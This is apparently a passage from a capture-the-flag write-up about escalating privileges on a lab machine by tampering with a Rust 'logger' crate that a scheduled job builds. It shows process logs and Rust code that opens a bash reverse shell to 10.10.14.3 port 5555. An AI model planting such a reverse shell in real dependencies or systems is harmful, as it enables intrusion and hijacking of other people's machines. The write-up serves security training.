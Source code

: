 ```
2023/06/20 02:44:01 CMD: UID=0    PID=7420   | /bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline                                                                                             
2023/06/20 02:44:01 CMD: UID=0    PID=7422   | /bin/sudo -u atlas /usr/bin/cargo run --offline 
2023/06/20 02:44:01 CMD: UID=0    PID=7424   | sleep 10 
2023/06/20 02:44:01 CMD: UID=0    PID=7423   | /bin/sh -c sleep 10 && /root/Cleanup/clean_c.sh
```

The source code for this application is in `/opt/tipnet/src/main.rs`.&#x20;

```rust
extern crate logger;
use sha2::{Digest, Sha256};
use chrono::prelude::*;
use mysql::*;
use mysql::prelude::*;
use std::fs;
use std::process::Command;
use std::io;

<TRUNCATED>
```

It's a pretty long file, but it does nothing of interest. I noticed that this uses an external library called `logger`, which is located in the same directory as `tipnet`.&#x20;

```
silentobserver@sandworm:/opt/crates/logger$ ls -la
total 40
drwxr-xr-x 5 atlas silentobserver  4096 May  4 17:08 .
drwxr-xr-x 3 root  atlas           4096 May  4 17:26 ..
-rw-r--r-- 1 atlas silentobserver 11644 May  4 17:11 Cargo.lock
-rw-r--r-- 1 atlas silentobserver   190 May  4 17:08 Cargo.toml
drwxrwxr-x 6 atlas silentobserver  4096 May  4 17:08 .git
-rw-rw-r-- 1 atlas silentobserver    20 May  4 17:08 .gitignore
drwxrwxr-x 2 atlas silentobserver  4096 May  4 17:12 src
drwxrwxr-x 3 atlas silentobserver  4096 May  4 17:08 target
```

The weird thing is, it seems that we are given write access over this directory. However, the `sudo` command runs `sudo -u atlas` before running the command, meaning that we don't get a `root` shell.&#x20;

I still did it anyways because there was literally nothing else I could so. Append this code at the top of the function in `lib.rs`.&#x20;

```rust
use std::process::Command;

    let command = "bash -i >& /dev/tcp/10.10.14.3/5555 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("works!");

    if output.status.success() {
        println!("pwn");
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("gg: {}", stderr);
    }
```
